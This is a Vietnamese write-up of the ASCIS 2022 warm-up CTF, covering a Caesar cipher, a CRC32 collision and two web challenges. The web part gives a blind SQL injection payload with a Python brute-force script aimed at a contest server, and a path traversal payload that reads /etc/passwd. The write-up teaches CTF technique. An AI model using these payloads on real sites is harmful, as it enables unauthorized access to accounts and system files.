 ```yaml
---
description: 'Note : A JOURNEY TO GAIN KNOWLEDGE'
---
```


# ASCIS 2022 - warm up

## Crypto

### I came, I saw, I conquered

#### chall

```
jhlzhy dhz h wvspapjphu huk nlulyhs vm aol shal yvthu ylwbispJ, dov nylhasf lealuklk aol yvthu ltwpyl ilmvyl zlpgpun wvdly huk tHrpun optzlsm kpjahavy vm yvtl, whcpun aol dhf mvy aol ptwlyphs zfzalt.

qbspbz jhlzhy dhz ivyu pu yvtL vu 12 vy 13 qbsf 100 ij puav aol wylzapnpvbz qbsphu jshu. opz mhtpsf dlyl jsvzlsf jvuuljalk dpao aol thyphu mhjapvu pu yvthu wvspapjz. jhlzhy optzlsm wyvnylzzlk dpaopu aol yvthu wvspapjhs zfzalt, iljvtpun pu zbjjlzzpvu xbhlZavy (69), hlkpsl (65) huk wyhlavy (62). pu 61-60 ij ol zlyclk hz nvclyuvy vm aol yvtHu wyvcpujl vm zwhpu. ihjr pu yvtl pu 60, jhlzhy thkl h whja dpao wvtwlf huk jyhzzbz, dov olswlk opt av nla lsljalk hz jvuzbs mvy 59 ij. aol mvssvdpun flhy ol dhz hwwvpualk nvclyuvy vm yvthu nhbs dolyl ol zahflk mvy lpnoa flhyz, hkkpun aol dovsl vm tvklYu myhujl huk ilsnpbt av aol yvthu ltwpyl, huk thrPun yvtl zhml myvt aol wvzzpipspaf vm nhsspj puchzpvuz. ol thkl adv lewlkpapvuz av iYpahpu, pu 55 ij huk 54 ij.

jhlzhy aolu yLabyulk av pahsf, kpzylnhykpun aol Hbaovypaf vm aol zluhal huk mhtvbzsf jyvzzpun aol ybipjvu ypcly dpaovba kpzihukpun opz hytf. pu aol luzbpun jpcps dhy jhlzhy klmlhalk aol ylwbispjhu mvyjlz. wvtwlf, aolpy slhkly, mslk av lnfwa dolyl ol dhz hzzhzzpuhalk. jhlzhy mvssvdlk opt huk iljhtl yvthuapjhSsf pucvsclk dpao aol lnfwaphu xbllu, jslvwhayh.

jhlzhy dhz uvd thzaly vm yvtl huk thkl optzlsm jvuzbs huk kpjahavy. ol bzlk opz wvdly av jhyyf vba tbjo-ullklk ylmvyt, ylsplcpun klia, lushynpun aol zluhal, ibpskpun aol mvybt pbspbt huk ylcpzpun aol jhslukhy. kpjahavyzopw dhz hsdhfz ylnhyklk h altwvyhyf wvzpapvu iba pu 44 ij, jhlzhy avvr pa mvy spml. opz zbjjlzz huk htipapvu hspluhalk zayvunsf ylwbispjhu zluhavyz. h nyvbw vm aolzl, slk if jhzzpbz huk iybabz, hzzhzzpuhalk jhlzhy vu aol pklz (15) vm thyjo 44 ij. aopz zwhyrlk aol mpuhs yvbuk vm jpcps dhyz aoha luklk aol ylwbispj huk iyvbnoa hivba aol lslchapvu vm jhlzhy'z nylha ulwold huk klzpnuhalk olpy, vjahcphu, hz hbnbzabz, aol mpyza ltwlyvy.
```

#### Work-flow

* Brute Decryt Caesar -> với key bằng 7 ta có được plaintext
* Để ý các chữ cái viết hoa
* Viết một đoạn script ngắn nối chúng lại

#### solve

```python
f = open("cipher.txt", "r")
cipher = f.read()
import string 
alpha = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"
for i in cipher: 
	if i == i.upper() and i in alpha :
		print(i, end="")
```

### Checksum

#### Chall

```python
import binascii

FLAG = 'ASCIS{XXXXXXXXXXX}'

def check_key(passwd):
    if len(passwd) < 16:
        return False
    if binascii.crc32(passwd.encode()) != binascii.crc32(FLAG.encode()):
        return False
    return True

password = input('What is the password?: ')
if check_key(password):
    print('Correct! Here is the flag: ' + FLAG)
else:
    print('Sorry! This is the hash we want:' + str(hex(binascii.crc32(FLAG.encode()))))
```



#### Work-flow

* Search quanh một xíu và tìm được doc [<mark style="color:blue;">này</mark>](https://github.com/fyxme/crc-32-hash-collider)<mark style="color:blue;"></mark>
* Người ta đã code sẳn tool rồi việc còn lại là đổi số target và lenght string cần tìm

#### solve

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption><p>Lâu lâu hóa chaos được lần </p></figcaption></figure>

* Kỉ niệm lâu lâu được lần solve thứ 2 :smile:

## WEB

### AscisStore1

#### chall

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption><p>Trang web bán hàng có chức năng login và register</p></figcaption></figure>

#### Work-flow

* Chọt phá dòng quanh -> khai thác SQLI ở login
* Thử với username như sau (có khoảng trắng ở sau dấu comment -- )

```
' or ord(substring(password,1,1)) = 65 --  
```

* Lúc này nhận thấy server trả về với user **`flag`**

<figure><img src="../../.gitbook/assets/image (1) (5).png" alt=""><figcaption></figcaption></figure>

* Như vậy có thể đoán được password của user flag chính là secret cần tìm
* Lúc này ta chỉnh lại query userser cho đúng với target, để tránh brute force sai

```
flag' and ord(substring(password,{index},1)) = {char} -- 
```

* and ở đây để cố định password cho username đã biết là flag
* nếu dùng or như ở trên sẽ dẫn đến trường hợp kết quả password query được chính là của toàn bộ database -> brute sai

#### solve

```python
import request

url = "http://34.143.158.202:4111/index.php?page=login"
#SELECT * from users WHERE username='flag' AND password = 'ord(substring(password,{index},1)) = {char} -- '

def solve():
	index = 1
	flag = ""
	while True:
		for char in range(32,128):
			usernamefield = f"flag' and ord(substring(password,{index},1)) = {char} -- "
			print(chr(char))
			passwordfield = "a"
			postParam = {'username': usernamefield, 'password': passwordfield}
			response = requests.post(url, data=postParam)
			if "flag" in response.text:
				flag += chr(char)
				print("index:",index,"  ", flag )
				index +=1
				break
		if flag.endswith("}"):
			break


solve()py
#index: 23    ASCIS{SQ11-I5-t0o-EA$Y}
```

### AscisStore2

#### Chall

<figure><img src="../../.gitbook/assets/image (42).png" alt=""><figcaption><p>web bán hàng tương tự bài trên nhưng có chức năng profile</p></figcaption></figure>

#### Work-flow

* Chấm mút quanh chức năng mới -> chức năng profile cho đăng ảnh lên
* Rất có khả năng là File up load to RCE hoặc path travesal
* Up thử tấm ảnh nyc lên tình hình:

<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

* Sau khi up lên ta thấy path trong đó có file image.php thì không còn nghi ngờ gì nữa -> path traversal for sure

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

#### solve

* Lần thep path rồi thử mọi cách path traversal thoi, chân ái is here:

```
....//....//....//....//....//....//....//....//....//etc/passwd
```

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

### Lời thú tội của một đá thủ

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption><p>Top 10 khu vực miền nam</p></figcaption></figure>

> Gửi lời cảm ơn chân thành nhất đến với các người ae trong team.
>
> Lâu rồi mới có cảm giác như những ngày đầu tiên tham gia CTF.
>
> Một ngày vui và học được nhiều thứ, đến lúc lui về ở ẩn rồi. Cảm ơn ae



Thanks for reading. Have a good day :heart: !
